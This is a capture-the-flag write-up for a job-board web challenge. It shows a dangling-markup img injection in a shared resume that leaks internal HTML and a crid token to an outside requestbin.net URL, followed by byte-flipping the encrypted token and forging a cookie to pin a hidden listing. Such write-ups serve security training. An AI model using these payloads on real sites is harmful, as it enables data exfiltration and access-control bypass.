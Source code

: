By following the instruction from the job posting

> Share your resume on THE GAUNTLET with "jobs" for consideration. We'll scrape any images in your resume;

We create a resume containing an HTML image tag:

```
<img src="http://requestbin.net/r/5vn3gc7l">
```

After sharing it with the user `jobs` we see that the URL gets requested.

If we do not properly close the attribute and tag:
```
<img src="http://requestbin.net/r/5vn3gc7l?q=
```
We can retrieve some HTML succeeding our broken `img` tag by looking at the requested URL.

```
<b>Internal listing - security engineer</b> (Job) by jobs <a href=/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==&ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0>Unpin</
```

It seems that there is another job listing, which is not public.

## Vulnerabilities / Exploitable Issues

Multiple vulnerabilities can be chained to exploit the web application:
1. The HTML code that can be input by the user is not checked for validity or at least sanity, making it vulnerable to exposure of sensitive information.
2. The application mostly relies on the `crid` verification for access control instead of applying permission verification explicitly.
3. The `crid` parameters do not include the `context_mask` in the associated data when performing AEAD encryption, therefore making it vulnerable to a malleability attack.

## Solution

We share a resume with a unclosed `img` tag with the `jobs` user. From the requested URL we then get an `unpin` URL of the internal job listing:

```
/p/unpin_listing?listing_id=crid:Bc6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ==&ret=crid:BwK08K/aJC4FC+b5LbL9eAi/47baWgNCkVU7uijNPSj0
```

We take the `crid` of the `listing_id`, modify its first byte from `5 = (USER_ID | PURPOSE)` to `6 = (CSRF | PURPOSE)`, set our cookie to `csrf=2` (the `user_id` of the `jobs` user) and use it to pin the listing in our account:

```
p/pin_listing?listing_id=crid%3ABs6Rl57Y3nU9CbKqnfoCruNP074GbEkkb0RapF1tmQ%3D%3D
```

Unfortunately there are some permission checks in place after all, so we can not view the listing:

> Error: Not authorized to view listing!

